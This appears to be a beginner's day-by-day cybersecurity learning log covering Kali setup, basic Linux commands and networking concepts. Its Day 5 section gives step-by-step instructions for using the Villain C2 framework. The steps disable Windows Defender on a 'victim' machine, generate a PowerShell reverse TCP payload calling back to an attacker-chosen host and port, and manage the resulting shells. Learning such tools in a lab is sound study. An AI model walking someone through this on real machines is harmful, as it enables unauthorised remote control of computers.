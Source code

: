 # Day1
welcome to my repository 
# Day2
I learned how to download Kali Linux for VirtualBox and use 7-Zip to extract the files. While extracting Kali Linux using 7-Zip, I faced some errors but was able to fix them successfully. I'm eager to keep learning new things.
# Day3
Learned about Linux commands such as:
→ ls (List files and directories)
→ cd (Change directory)
→ pwd (Print current working directory)
→ mkdir (Create a new directory)
→ chmod (Change file permissions), etc.
Also learned how to run and execute them in Kali Linux using VirtualBox.
I'm excited to learn more new things ahead!
# Day4
->NAT (Network Address Translation):
       NAT is a networking process used to modify IP address information in packet headers while they are in transit across        a router or firewall.
       -->It allows multiple devices on a private network to share a single public IP address.
       -->Adds a layer of security by hiding internal IP addresses from external networks.
->Difference between TCP (Transmission Control Protocol) and UDP (User Datagram Protocol):
       1.Connection – TCP is connection-oriented (uses a handshake), while UDP is connectionless and sends data without             establishing a session.
       2. Reliability – TCP ensures reliable data transfer with acknowledgments and retransmissions; UDP does not guarantee        delivery.
       3.Speed – TCP is slower due to error checking and connection management, while UDP is faster because it has minimal         overhead.
       4.Security Risks – TCP can be targeted by attacks like SYN flooding and session hijacking, whereas UDP is vulnerable         to spoofing and amplification attacks.
->IP Address (Internet Protocol Address):
       Each device connected to a network is assigned an IP address to identify it.
        Currently, we are receiving **Dynamic IP Addresses** (assigned automatically and may change).
->IPv4 (Internet Protocol version 4):
        Format: 32-bit (e.g., `192.168.1.1`)
        Supports about 4.3 billion unique addresses.
->MAC Address (Media Access Control Address)
        Each device has a unique MAC address assigned to its network interface card.
        This address rarely changes and is used for communication within a local network.
->Port Forwarding:
        Port forwarding is a networking technique that redirects traffic from an external IP and port to an internal device         on a private network.
         It is useful for remote access to services.
         However, it can be risky if misconfigured, as it may expose internal services to attackers.
# Day5
Creating Reverse shell for Windows Hacking using Villain FrameWork:
-->Villain is a C2 (Command & Control) framework for managing reverse shells and backdoors across multiple machines.
**1. Install Villain**

```bash
git clone https://github.com/t3l3machus/Villain.git
cd Villain
sudo apt update
sudo apt install python3 python3-pip
pip3 install -r requirements.txt
```

**2. Launch Villain**

```bash
cd Villain
sudo python3 Villain.py
```

**3. On Victim Windows Machine**

* Turn off **Windows Defender** → Real-time protection **OFF**.

**4. Generate & Execute Payload**

* In Villain:

  ```bash
  generate payload=windows/reverse_tcp/powershell lhost=<Your_IP> lport=4444
  ```
* Copy payload → Paste into **Windows PowerShell** → Press **Enter**.

**5. Manage Sessions**

* `sessions` → View active sessions.
* `shell <ID>` → Interact with a session.
